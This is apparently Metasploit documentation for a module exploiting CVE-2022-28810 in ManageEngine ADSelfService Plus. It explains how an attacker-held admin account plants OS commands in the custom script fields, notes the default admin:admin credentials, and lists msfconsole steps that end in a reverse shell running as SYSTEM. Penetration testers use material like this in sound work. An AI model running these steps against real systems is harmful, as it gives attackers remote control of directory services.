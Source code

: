 ## Vulnerable Application

### Description

This module exploits the "custom script" feature of ADSelfService Plus. The
feature was removed in build 6122 as part of the patch for CVE-2022-28810.
For purposes of this module, a "custom script" is arbitrary operating system
command execution.

This module uses an attacker provided "admin" account to insert the malicious
payload into the custom script fields. When a user resets their password or
unlocks their account, the payload in the custom script will be executed.
The payload will be executed as SYSTEM if ADSelfService Plus is installed as
a service, which we believe is the normal operational behavior.

This is a passive module because user interaction is required to trigger the
payload. This module also does not automatically remove the malicious code from
the remote target. Use the "TARGET_RESET" operation to remove the malicious
custom script when you are done.

ADSelfService Plus uses default credentials of "admin":"admin"

### Setup

Follow the [Getting Started] guide. You will need an AD environment and at least two
accounts: an AD admin for ADSelfService Plus and a test account to enroll in the
service. The service runs on Windows (any it seems - I tested on Windows 10), so
you'll need that.

1. Prepare a Windows environment to install on.
1. Download [ManageEngine_ADSelfService_Plus_64bit.exe] build 6121
1. Run the installer (skip registration). Do **not** "Start ADSelfService Plus in console mode".
1. Run the service installer (start menu -> "Install ADSelfService Plus as Service")
1. Start the service (services -> "ManageEngine ADSelfService Plus")
1. Nagivate to the web server: http://localhost:8888 (may take a few minutes to load)
1. Log in as "admin" (password: admin)
1. Connect the AD DC: enter the domain name and hit discover. Provide credentials when prompted.
1. Enroll users via "Configuration" -> "Administration Tools" -> "Quick Enrollment" ->
"Import Users from CSV". Download the "sample.csv, edit it with your test user and
upload it." Also use "Import" -> "Answer" in the drop down.
1. Logout from the admin account and log in as the newly enrolled user to configure
the secret question responses. Once completed the test user should be fully enrolled
and ready for hax.
1. You may need to open up port 8888 on the firewall. I've encountered ADSSP forgetting to do so.

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module is waiting for a reverse TCP connection
* Navigate to the ADSelfService Plus web UI and reset your test users password.
* After a new password has been set verify the module received a reverse shell.
* Exit the shell
* Do `set TARGET_RESET true`
* Do `run`
* Navigate to the ADSelfService Plus web UI, log in as admin, and verify that the custom
scripts have been removed and disabled ("Configuration" -> "Self Service" ->
"Policy Configuration" -> "Advanced" -> "Password Sync")
